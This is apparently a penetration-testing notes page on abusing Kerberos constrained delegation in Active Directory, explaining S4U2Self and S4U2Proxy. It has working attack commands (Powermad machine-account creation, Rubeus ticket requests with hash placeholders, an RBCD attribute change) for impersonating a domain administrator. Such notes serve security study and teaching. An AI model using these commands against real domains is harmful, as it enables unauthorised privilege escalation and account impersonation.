







---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---

# Constrained


All information found below has been adapted from [Attl4s](https://attl4s.github.io/) [video-presentation](https://www.youtube.com/watch?v=gzqq2r6cZjc) and its corresponding [slide deck](https://attl4s.github.io/assets/pdf/You_do_\(not\)_Understand_Kerberos_Delegation.pdf).


## Theory

Constrained delegation does not leverage TGTs, and thus, cannot impersonate a user freely on any service (`msds-allowedtodelegateto`). Instead, it uses the `S4U2Self` and `S4U2Proxy` Keberos extensions:

1. **S4U2Proxy**: allows a service to obtain a ST on behalf of a client to another service. The initial client ST is required as evidence that the client has authenticated.
2. **S4U2Self**: allows a service to obtain a ST to itself as evidence that a client has authenticated. Any services (SPN account) can invoke S4U2Self.

## Without Protocol Transition (Kerberos Only)

<figure><figcaption><p>Figure 1: CD with PT process (<em>image taken from</em><a href="https://attl4s.github.io/assets/pdf/You_do_(not)_Understand_Kerberos_Delegation.pdf"> <em>here</em></a><em>)</em>.</p></figcaption></figure>

### Exploitation

This process requires only a ST (evidence/additional) as a requirement to invoke it.

We need an account with at least one SPN (Figure 2.1).

```powershell
RBCD ?
# create a machine account (powermad)
New-MachineAccount -MachineAccount attl4s
```

We can impersonate `web01` through its credentials (Figure 2.2).

```powershell
# generate a TGT for web01
.\Rubeus.exe asktgt /user:web01$ /rc4:<hash> /domain:capsule.corp /nowrap /ptt
```

<figure><figcaption><p>Figure 2: Creating a SPN account and impersonating <code>web01</code> (<em>image taken from</em><a href="https://attl4s.github.io/assets/pdf/You_do_(not)_Understand_Kerberos_Delegation.pdf"> <em>here</em></a><em>).</em></p></figcaption></figure>

Any SPN account can configure RBCD for itself. So we will make `web01` to trust `attl4s`, so the latter can impersonate any user to the former (Figure 3).


```powershell
Import-Module .\Microsoft.ActiveDirectory.Management.dll
# set the RBCD bit
Set-ADComputer -Identity web01$ -PrincipalsAllowedToDelegateToAccount attl4s$ -Verbose
```


<figure><figcaption><p>Figure 3: Setting the RBCD bit (<em>image taken from</em><a href="https://attl4s.github.io/assets/pdf/You_do_(not)_Understand_Kerberos_Delegation.pdf"> <em>here</em></a><em>).</em></p></figcaption></figure>

Now, we can use `attl4s` machine to obtain a ST for `web01`, impersonating the `administrator` (`S4U2Self` & `S4U2Proxy`) (Figure 4).


```powershell
.\Rubeus.exe s4u /impesonateuser:administrator /user:attl4s /rc4:<hash> /msdsspn:cifs/web01.capsule.corp /nowrap
```


<figure><figcaption><p>Figure 4: Going through the S4U process (<em>image taken from</em><a href="https://attl4s.github.io/assets/pdf/You_do_(not)_Understand_Kerberos_Delegation.pdf"> <em>here</em></a><em>).</em></p></figcaption></figure>

Since the second ST ticket is `forwardable`, it can be used on Kerberos for authenticating as `administrator` (TGT).

## With Protocol Transition

* PT means "_I don't care how the client authenticates_". It just needs the client's name.&#x20;
* The difference vs. [Without Protocol Transition (Kerberos Only)](constrained.md#without-protocol-transition-kerberos-only) is that the `S4U2Proxy` cannot be invoked as we don't have a ST for the user (since NTLM authentication was used) (Figure 5.1).
* The difference with [RBCD](resource-based.md) is that the KDC checks the `TRUST_TO_AUTH_FOR_DELEGATION` UAC[^1] setting and sees that `web01` is trusted, so it issues a `forwardable` ST to it (Figure 5.2), therefore, the `S4U2Proxy` can now be invoked.

<figure><figcaption><p>Figure 5: Constrained Delegation with protocol transition process (<em>image taken from</em><a href="https://attl4s.github.io/assets/pdf/You_do_(not)_Understand_Kerberos_Delegation.pdf"> <em>here</em></a><em>).</em></p></figcaption></figure>

### Exploitation


```powershell
.\Rubeus.exe s4u /impersonateuser:administrator /user:web01$ /rc4:<hash> /msdsspn:cifs/sql01.capsule.corp /altservice:http/sql01.capsule.corp /nowrap
```


If we compromise a service configured for CD with PT (`web01`), then we can generate a ST for any user we want (`administrator`) with `S4U2Self` pointing to `web01` (Figure 6).

<figure><figcaption><p>Figure 6: Getting a <code>forwardable</code> ST as administrator with the <code>S4U2Self</code> for <code>web01</code> (<em>image taken from</em><a href="https://attl4s.github.io/assets/pdf/You_do_(not)_Understand_Kerberos_Delegation.pdf"> <em>here</em></a><em>).</em></p></figcaption></figure>

The ST generated from `S4U2Self` will be `forwardable`, and thus can be used with `S4U2Proxy` to generate a second ST for the targeted service (`cifs`) as the impersonated user (`administrator`) (Figure 7).&#x20;

<figure><figcaption><p>Figure 7: Generating the second ST with <code>S4U2Proxy</code> for the targeted service as administrator (<em>image taken from</em><a href="https://attl4s.github.io/assets/pdf/You_do_(not)_Understand_Kerberos_Delegation.pdf"> <em>here</em></a><em>).</em></p></figcaption></figure>

Althought, the SPN account will have specific service(s) in the `msDS-AllowedToDelegateTo` attribute (`cifs`) (Figure 8), this can modified to target other services from the same service account (`http`) (Figure 6 & 7).

<figure><figcaption><p>Figure 8: The <code>msds-allowedtodelegateto</code> attribute of <code>WEB01</code> (<em>image taken from</em><a href="https://attl4s.github.io/assets/pdf/You_do_(not)_Understand_Kerberos_Delegation.pdf"> <em>here</em></a><em>).</em></p></figcaption></figure>

## Resources

* Some great lectures on Constrained Delegation Attacks ([video](https://www.youtube.com/watch?v=gzqq2r6cZjc), [video](https://www.youtube.com/watch?v=Y2Wh2e6eZVc))

[^1]: User Account Control
